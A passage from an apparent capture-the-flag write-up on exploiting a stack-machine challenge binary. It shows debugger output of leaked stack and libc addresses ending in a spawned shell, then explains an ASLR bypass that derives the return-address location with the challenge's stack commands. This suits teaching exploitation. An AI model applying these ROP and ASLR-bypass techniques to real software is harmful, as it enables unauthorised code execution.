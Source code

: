 ```
gef> r
Starting program: /blah/main
0x0
...
0x7fffffffd6ee
0x0
0x7fffffffd6f0
0x555555555822    # Saved return address
0x7fffffffd7d8    # $rbp+0x108
0x100000000
0x555555555830
0x7ffff7a2d830    # $libc+0x20830 (libc vmmaped at 0x7ffff7a0d000)
0x1
0x7fffffffd7d8
0x1f7ffcca0
0x555555555809
0x0
0x34f8d2d9efaa1034
process 18599 is executing new program: /bin/dash
$ 
```

## ASLR bypass

Unfortunately, if you run the executable on the challenge box, it fails. If you look at the printed addresses, they subtly change each time you run the executable due to the *anti-hacker protection* called Address Space Layout Randomisation (ASLR). At this point, it was obvious that the purpose of ASLR was just to make me cry. If we can't hardcode the addresses of libc functions or our `/bin/sh` string, what can we do?

We've already worked out our addresses as offsets from:
* address of the start of the ROP chain (`return_address_address=$rbp+8`)
* address of the start of libc

We notice that due to some magic in `_start`, the value popped after the saved return address (at `$rbp+16`) = `$rbp+0x108`:

```
> x/2g $rbp+8
0x7fffffffd6d8: 0x0000555555555822      0x00007fffffffd7d8
```

This gives us a way to calculate the offset, using some other stack-machine commands.

```
pop_print() * 19  # pop saved return address, set top of stack to $rbp+16
pop_to_nth_global(99)  # save $rbp+0x108 in global 99
pop_print()
push_uint64(0x100)
push_nth_global(99)  # stack is now [$rbp+0x108, 0x100]
subtract_top_from_pop()
pop_to_nth_global(99)  # save $rbp+8 (i.e. return_address_address) to global 99
```
